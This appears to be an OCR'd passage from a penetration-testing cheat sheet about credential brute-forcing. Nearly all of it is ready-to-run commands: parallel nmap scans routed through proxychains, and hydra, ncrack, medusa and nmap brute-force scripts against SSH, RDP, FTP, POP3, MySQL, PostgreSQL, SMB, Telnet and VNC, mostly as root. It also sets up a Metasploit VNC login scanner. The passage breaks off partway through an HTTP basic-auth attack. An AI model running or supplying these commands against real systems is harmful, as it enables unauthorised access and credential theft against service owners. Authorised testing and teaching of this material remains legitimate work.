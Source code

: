 ### Start 10 nmaps in parallel:
```
seq 1 254 | xargs -P10 -I{} proxychains -f pc.conf -q nmap -n -Pn -sV -F --open 192.168.1.{} 
```
### SSH
```
nmap -p 22 --script ssh-brute --script-args ssh-brute.timeout=4s "$T"
ncrack -P "${PLIST}" --user root "ssh://${T}"
hydra -P "${PLIST}" -l root "ssh://$T"
```
### Remote Desktop Protocol / RDP
```
ncrack -P "${PLIST}" --user root -p3389 "${T}"
hydra -P "${PLIST}" -l root "rdp://$T"
```
### FTP
```
hydra -P "${PLIST}" -l user "ftp://$T"
```
### POP3 (email)
```
nmap -p110,995 --script pop3-brute "$T"
```
### MySQL
```
nmap -p3306 --script mysql-brute "$T"
```
### PostgreSQL
```
nmap -p5432 --script pgsql-brute "$T"
```
### SMB (windows)
```
nmap --script smb-brute "$T"
```
### Telnet
```
nmap -p23 --script telnet-brute --script-args telnet-brute.timeout=8s "$T"
```
### VNC
```
nmap -p5900 --script vnc-brute "$T"
ncrack -P "${PLIST}" --user root "vnc://$T"
hydra -P "${PLIST}" "vnc://$T"
medusa -P "${PLIST}" –u root –M vnc -h "$T"
```
### VNC (with metasploit)
```
msfconsole
use auxiliary/scanner/vnc/vnc_login
set rhosts 192.168.0.1
set pass_file /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt
run
```
## HTML basic auth
```
echo admin >user.txt                     # Try only 1 username
echo -e "blah\naaddd\nfoobar" >pass.txt  # Add some passwords to try. 'aaddd' is the valid one.
nmap -p80 --script http-brute --script-args \
```